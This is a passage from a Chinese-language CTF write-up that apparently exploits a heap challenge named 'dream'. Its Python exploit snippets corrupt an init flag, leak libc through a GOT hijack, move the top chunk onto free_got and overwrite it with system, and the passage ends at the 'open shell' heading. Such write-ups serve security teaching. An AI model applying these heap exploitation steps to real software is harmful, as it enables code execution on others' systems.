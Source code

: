 ##### 修改初始化标志，使程序回到 create world

```python
create(0x28, 'a'*0x10)
```

![image-20220213012805065](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213012805065.png)

![image-20220213012735634](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213012735634.png)

![image-20220213213745382](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213213745382.png)

此时的堆正好来到初始化标志的地方，通过 create 直接篡改，回到修改 top_chunk 的步骤。

##### 对 world 块进行布置并释放，泄露 libc

```python
payload  = p64(0)
payload += p32(0) + p32(2)
payload += p64(0x6020e0)
payload += p64(0x602030)
payload += '\x00' * (0xf8-0x20)
payload += p64(i64_max)
p.sendafter('name: ', payload)
destory('world', False)
```

![image-20220213214529225](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213214529225.png)

`0x6020DC` 的地方存放的是已经 create 的数量，`0x6020E0` 存放的是 ptr 指针，用于记录 create 的 chunk 的地址。

![image-20220213233022754](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213233022754.png)

在 destory 的时候，要根据 ptr 的地址去 free，我们把 `0x602030`，也就是**指向** `_IO_puts` 的地址放在第一个 free 的位置，由于现在 free_got 已经被劫持为 puts，所以会把 `_IO_puts` 在 libc 的地址泄露出来。

##### 修改 top_chunk 到 free_got

```python
create(str(free_got - 0x28 - 0x6021c0), 'cccc', False)
```

![image-20220213214604143](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213214604143.png)

##### 劫持 free_got 到 system

```python
payload  = 'a'*8
payload += p64(system).replace(b'\x00',b'\t')[:-1]
create(0x88, payload)
```

![image-20220213214650133](https://up-wind.github.io/assets/2022-01-29-dream/image-20220213214650133.png)

##### 开 shell
